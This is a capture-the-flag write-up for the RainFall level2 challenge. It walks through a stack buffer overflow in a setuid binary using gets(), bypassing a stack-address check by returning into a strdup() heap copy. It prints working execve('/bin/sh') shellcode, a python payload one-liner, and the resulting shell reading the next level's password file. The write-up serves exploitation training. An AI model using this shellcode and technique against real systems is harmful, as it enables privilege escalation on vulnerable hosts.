 Level2's protections:
```Shell
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

Level2's rights:
```Shell
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `p()` function
- `p()` stores a buffer of 76 bytes that is used with `gets()`
- a condition checks if `EIP` contains an address from the stack (in which case, it prints back the address itself and exits)
- `p()` calls `strdup()` with the same buffer used in `gets()`.

To open a shell, we must therefore do the following:
- write a shellcode that opens a terminal and store it inside the buffer
- redirect the flow of execution at the start of the buffer
- since we cannot use the address of the buffer from the stack (because of the check), we will use the address of its copy
from the heap, thanks to `strdup()` which uses `malloc()`

Let's write a shellcode:
```Shell
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```
This corresponds to `execve("/bin/sh")`. You can write your own shellcode by writing it in C, doing `objdump()` on the .o
file, copy-pasting the info and add \x in front of each byte. This shellcode is 21-bytes long.
 
Now,using ltrace we can get the return address of `strdup()`, which corresponds to the copied buffer.
```Shell
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Using gdb and a buffer overlow pattern we get an offset of 80 bytes before reaching `EIP`.
(76 for the buffer itself and 4 extra bytes for `EBP`). This will be the structure of our payload:
21-bytes of shellcode + 59-bytes of `NOP` instructions to overflow + address of the `strdup()` buffer converted in Little Endian.
```Shell
level2@RainFall:~$ python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/payload2
level2@RainFall:~$ cat /tmp/payload2 - | ./level2
1���
    Qh//shh/bin��̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
